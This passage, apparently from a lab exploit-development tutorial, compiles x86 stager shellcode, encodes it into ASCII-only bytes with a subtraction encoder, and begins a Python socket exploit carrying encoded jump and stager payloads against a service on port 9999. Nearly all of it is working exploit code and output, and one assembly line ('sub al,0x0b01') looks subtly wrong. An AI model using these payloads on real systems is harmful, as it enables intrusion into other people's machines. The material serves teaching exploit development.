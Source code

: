 We can compile that using `NASM`:

``` console
nasm -f elf32 -o shellcode.o shellcode.asm
```

And get the expected shellcode with:

``` bash
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3
```

Now, let’s encode that with our tool:

``` console
$ python3 ~/Automatic-ASCII-Shellcode-Subtraction-Encoder/encoder.py -m -p -s
'\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3' -v STAGER
...
Shellcode length: 234
Shellcode Output:

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'
```

We need to align our `ESP` pointer again:

``` x86asm
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x0b01       ; Substract 0x0b01 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
```

And update our exploit with that. Remember to add a padding in the first
bytes, so our long jump lands there and the execution slides to our
stager:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
```
